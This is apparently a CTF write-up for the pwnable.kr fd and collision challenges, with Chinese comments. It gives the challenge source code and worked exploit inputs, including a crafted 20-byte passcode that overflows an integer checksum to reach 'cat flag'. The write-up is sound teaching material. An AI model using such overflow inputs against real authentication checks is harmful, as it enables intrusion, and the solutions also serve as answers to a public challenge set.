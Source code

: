 ## [pwnable.kr](http://pwnable.kr/play.php)

* [Toddler's Bottle](#)
    * [fd](#toddlers-bottle---fd)
    * [collision](#toddlers-bottle---collision)

#### Toddler's Bottle - fd

```sh
$ ssh fd@pwnable.kr -p2222 # guest
fd@ubuntu:~$ cat fd.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){
        printf("pass argv[1] a number\n");
        return 0;
    }
    int fd = atoi( argv[1] ) - 0x1234; // 文件描述符
    int len = 0;
    len = read(fd, buf, 32);           // 从fd中读取数据（这里理解为标准输入STDIN_FILENO即可）
    if(!strcmp("LETMEWIN\n", buf)){    // 从fd中读到内容为'LETMEWIN\n'
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;
}
```

```sh
fd@ubuntu:~$ ./fd `python -c "print 0x1234"` # stdin
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

扩展学习：[Standard streams](https://en.wikipedia.org/wiki/Standard_streams), [File descriptor](https://en.wikipedia.org/wiki/File_descriptor)

#### Toddler's Bottle - collision

```sh
$ ssh col@pwnable.kr -p2222 # guest
col@ubuntu:~$ cat col.c
```

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;            // 冲突md5
unsigned long check_password(const char* p){    // char 类型为1字节
    int* ip = (int*)p;                          // int 类型为4字节
    int i;
    int res=0;
    for(i=0; i<5; i++){
        res += ip[i];   // 可能溢出, int范围[-2^31, 2^31-1]
                        // 利用此处可能溢出漏洞，从0 --> 2^31-1 --[+1]--> -2^31 --> 0
    }
    return res;
}

int main(int argc, char* argv[]){
    if(argc<2){
        printf("usage : %s [passcode]\n", argv[0]);
        return 0;
    }
    if(strlen(argv[1]) != 20){                  // 输入20字节
        printf("passcode length should be 20 bytes\n");
        return 0;
    }

    if(hashcode == check_password( argv[1] )){
        system("/bin/cat flag");
        return 0;
    }
    else
        printf("wrong passcode.\n");
    return 0;
}
```

分析：

```c
#include <stdio.h>

unsigned long check_password(const char* p){
    int* ip = (int*)p;
    int i;
    int res=0;
    for(i=0; i<5; i++){
        printf("[%d]: %d\n", i, ip[i]);
        res += ip[i];
    }
    return res;
}

int main(int argc, char *argv[]) {
    char *a = "FFFFFFFFFFFFFFFF\0\0\0\0";               // #1
    // char *a = "FFFFFFFFFFFFFFFF\xd4\xf0\xc3\x08";    // #2
    printf("%ld\n", check_password(a));
    return 0;
}
```

抽取函数 `check_password` 并利用如上代码 **#1** 先计算出 `FFFF FFFF FFFF FFFF \0\0\0\0` 结果

```sh
$ gcc a.c; ./a.out
[0]: 1179010630
[1]: 1179010630
[2]: 1179010630
[3]: 1179010630
[4]: 0
421075224           # FFFFFFFFFFFFFFFF\0\0\0\0
$ python -c "print 0x21DD09EC - 421075224"  # 计算与期望 0x21DD09EC 差值
147058900
$ python -c "print hex(147058900)"          # 获取 \0\0\0\0 应对应的int值
0x8c3f0d4
```

目标机 `col@pwnable.kr` 为小端地址，因此 `0x8c3f0d4` => `\xd4\xf0\xc3\x08`，利用 **#2** 验证结果

```sh
col@ubuntu:~$ ./col `perl -e 'print "FFFFFFFFFFFFFFFF\xd4\xf0\xc3\x08"'`
daddy! I just managed to create a hash collision :)
```

扩展学习：[Integer (computer science)](https://en.wikipedia.org/wiki/Integer_(computer_science))

参考资料：[pwnable-collision](https://etenal.me/archives/972#C3)
